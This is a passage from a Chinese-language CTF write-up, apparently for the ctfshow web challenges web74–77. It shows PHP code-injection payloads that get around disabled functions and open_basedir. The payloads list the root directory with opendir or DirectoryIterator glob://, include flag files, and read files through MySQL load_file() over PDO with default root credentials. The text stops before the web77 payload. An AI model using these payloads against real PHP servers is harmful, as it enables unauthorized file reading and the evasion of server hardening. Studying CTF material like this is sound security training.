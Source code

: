 ## web74（突破禁用函数）
```php
Warning: scandir() has been disabled for security reasons in /var/www/html/index.php(19) : eval()'d code on line 1
```
scandir被禁用了，那么就构造php代码读文件
```php
c=?><?php $dir='/';
if($dh = opendir($dir)){
while (($file = readdir($dh)) !== false)
echo $file.' ';
}
exit();?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637906955972-ad87a8c0-8de0-4209-b969-2f28d14322e3.png#)
得到文件在flagx.txt
最终payload：c=include('/flagx.txt');exit();

## web75（PDO）
这次读目录不可行了，那么就换个姿势
```php
c=?><?php 
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f.' ');}
exit();
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637907212607-438c0ab9-015a-46f2-bd07-e59084ed165a.png#)

得到文件在flag36.txt，这时候直接包含是拿不到答案的，会报错open_base，但可以通过其他应用比如说mysql来访问，如下使用pdo

```php
c=try{
  $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');
  foreach($dbh->query('select load_file("/flag36.txt")') as $row)
		{echo($row[0])."|"; }
  $dbh = null;
}
catch (PDOException $e)
{echo $e->getMessage();exit(0);}
exit(0);
```
> PHP 数据对象 （PDO） 扩展为PHP访问数据库定义了一个轻量级的一致接口。
> PDO 提供了一个数据访问抽象层，这意味着，不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据

## web76（PDO）
做法同上，flag在flag36d.txt
## web77（PDO）
这个题不让用mysql了，前两个题的做法在这里行不通了
先读一下根目录下的所有文件
```php
c=?><?php 
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f.' ');}
exit();
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637909954366-8afa163f-b5f7-4c1d-a9db-e3f5d15a2cdd.png#)
有两个可疑文件，flag36x.txt和readflag，留着备用，先放payload
